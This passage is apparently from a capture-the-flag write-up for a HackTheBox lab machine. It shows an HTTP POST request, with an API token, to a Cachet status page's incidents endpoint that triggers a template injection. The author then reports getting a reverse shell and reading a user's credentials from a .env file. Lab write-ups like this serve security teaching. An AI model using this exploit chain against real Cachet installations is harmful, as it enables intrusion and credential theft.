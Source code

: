 Now all we have to do is send a POST request to `/api/v1/incidents` with the template name we just created. It does not need to be authenticated to send this request:
```
POST /api/v1/incidents HTTP/1.1
Host:status.catch.htb:8000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
X-Cachet-Token:7GVCqTY5abrox48Nct8j
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

visible=0&status=1&name=caue&template=caue
```

And we receive the reverse shell:
![](images/image11.png)
And then we could find the credentials for `will` in the `.env` file:
![](images/image12.png)
